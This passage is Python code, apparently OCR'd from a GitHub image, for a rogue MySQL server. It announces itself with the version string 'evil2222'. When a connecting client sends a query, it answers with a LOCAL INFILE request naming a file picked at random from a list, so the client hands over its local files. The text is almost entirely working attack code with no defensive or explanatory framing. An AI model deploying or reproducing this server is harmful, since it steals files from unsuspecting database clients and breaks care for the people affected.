 ```python
                    '\x08',  # Collation
                    '\x02\x00',  # Server Status
                    '\0' * 13,  # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
```